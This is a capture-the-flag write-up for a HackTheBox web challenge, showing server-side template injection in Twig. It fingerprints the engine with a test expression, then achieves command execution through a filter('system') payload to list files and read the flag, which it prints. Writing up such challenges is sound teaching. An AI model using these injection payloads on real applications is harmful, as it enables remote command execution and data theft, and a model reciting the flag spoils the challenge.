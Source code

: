 # Baby Bonecherwercon

## Description

The devil is enticing us to commit some sandboxed SSTI feng shui, would you be interested in doing so?
http://docker.hackthebox.eu:31115/

## Writeup

![preview](img/1.png)

Upon opening the challenge link, we can see there is a form where we register a name.
This was by far the easiest web challenge.

Because of the description, we know it's an SSTI, So let's directy try to inject `{{7*'7'}}`

![49](img/2.png)

It resulted in `49`, So it's using `Twig` template. if the output was: `7777777` it'd be `Jinga2`.
You can refer to the diagram below to detect which template is used based on the input:

![diagram](img/diagram.png)

The exploitation part is quite easy, there is no filter at all, so we can just go ahead and use system function like this:

```
http://docker.hackthebox.eu:31115/?name={{["id"]|filter("system")}}
```

![id command](img/3.png)

Let's look for the flag

```
http://docker.hackthebox.eu:31115/?name={{["ls -la /"]|filter("system")}}
```

![ls command](img/4.png)


```
http://docker.hackthebox.eu:31115/?name={{["cat /flag"]|filter("system")}}
```

![cat flag](img/5.png)

#### Flag:

```
HTB{b3nt_tw1g_t0_my_will!}
```